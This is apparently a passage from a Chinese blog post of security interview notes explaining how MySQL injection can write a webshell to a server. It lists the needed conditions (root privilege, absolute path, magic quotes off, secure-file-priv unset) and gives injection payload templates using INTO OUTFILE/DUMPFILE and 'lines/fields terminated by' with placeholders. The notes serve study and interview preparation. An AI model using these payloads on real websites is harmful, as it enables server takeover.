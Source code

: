```yaml
---
layout: post_layout
title: 面试笔记
time: 2019年03月12日 星期四
location: 杭州
pulished: true
excerpt_separator: "```"
---
```


#### 1.如何利用 Mysql 注入写入 webshell。

**(1)利用条件**

① root 权限

② 绝对路径

③ GPC = off （能使用单引号）

④ mysql 配置文件 my.ini 中的参数 secure-file-priv 未配置或设置为网站根目录

```
关于③：
PHP 魔术引号，有三种，一般指 magic_quotes_gpc 选项，默认为 on。可对单引号、双引号、反斜杠、NULL 进行转义，功能与 addslashes() 相同。因与 addslashes() 相比可移植性差、性能低、不方便等原因，已在 PHP5.4 版本被移除。
```
```
关于④：
如果该变量为空，则变量无效，这时候最容易利用。
如果变量为目录的绝对路径，则服务器会将导入和导出操作限制为仅适用于该目录中的文件。
如果设置为NULL，则服务器禁用导入和导出操作。
```

**(2)Payload**

可以使用联合查询时：`id=1' union select [webshell] into outfile/dumpfile [绝对路径]`

无法使用联合查询时：

```
id=1' into outfile [绝对路径] lines starting by [webshell]
id=1' into outfile [绝对路径] lines terminated by [webshell]
id=1' into outfile [绝对路径] fields terminated by [webshell]
id=1' into outfile [绝对路径] columns terminated by [webshell]
```

#### 2.